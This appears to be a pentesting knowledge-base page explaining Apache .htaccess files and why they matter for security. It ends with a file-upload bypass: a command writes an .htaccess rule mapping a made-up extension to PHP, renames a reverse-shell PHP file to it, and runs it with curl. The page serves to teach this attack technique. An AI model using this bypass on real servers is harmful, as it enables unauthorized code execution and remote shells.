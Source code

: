 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# .htaccess

The [`.htaccess`](https://httpd.apache.org/docs/current/howto/htaccess.html) file is a configuration file used by Apache web servers to **define directory-level rules** without modifying the global server configuration. When present in a directory, Apache parses this file and **applies the directives to that directory and all of its subdirectories**. The file is often leveraged to control access restrictions, enforce redirects, rewrite URLs, configure custom error pages, or apply specific security rules.

The file operates in a hierarchical manner, meaning directives within a `.htaccess` located deeper in the file structure can override those set higher up. This allows fine-grained control over individual application components. Since it directly influences the behavior of the web server, its permissions and allowed directives are critical from a security standpoint. Misconfigurations can expose sensitive data, weaken authentication controls, or inadvertently disclose server internals.

Attackers often look for accessible `.htaccess` files to gain insight into application logic or server behavior. When allowed to be written to by an application or a compromised account, malicious directives may be inserted to enable backdoors, bypass logging, or manipulate request handling. As such, the file is both a legitimate administrative tool and a common target in web exploitation.

For example, if there is a blacklist that dissallows `.php` files and its variations, such as `php5`, `phar`, `phtml`, etc., an `.htaccess` file can be created in the `/uploads` directory and force the server to associated a random extension (e.g. `x7331`) to the PHP MIME type (`application/x-httpd-php`):

```bash
# Create the .htaccess file
$ echo "AddType application/x-httpd-php .x7331" > .htaccess

# Rename the malicious file
$ cp revshell_ivan.php revshell_ivan.x7331

# Execute the file as a PHP script
$ curl http://access/uploads/revshell_ivan.x7331
```
